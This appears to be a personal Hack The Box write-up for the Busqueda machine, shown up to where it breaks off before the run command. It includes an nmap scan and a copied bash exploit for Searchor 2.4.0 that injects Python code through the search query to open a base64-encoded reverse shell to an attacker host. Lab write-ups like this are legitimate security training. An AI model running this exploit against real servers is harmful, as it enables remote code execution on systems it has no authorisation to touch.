 ```yaml
---
title: "Busqueda from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Busqueda from HTB
[page](https://app.hackthebox.com/machines/Busqueda)
`Nmap`gave this:
```bash
$ nmap -sCV --min-rate 4000 -Pn -p- 10.10.11.208
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 05:32 +04
Nmap scan report for 10.10.11.208
Host is up (0.085s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp    open     http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
Add this to `/etc/hosts`file:
```
10.10.11.208 searcher.htb
```
Then proceed to site.
On the bottom it says that website is using `Flask` and `Searchor` version `2.4.0` .
Search vulnerability for that version and first thing i got was this code from `Github repository`:
```bash
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example:

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```
and to run it you need to do this:
```bash
```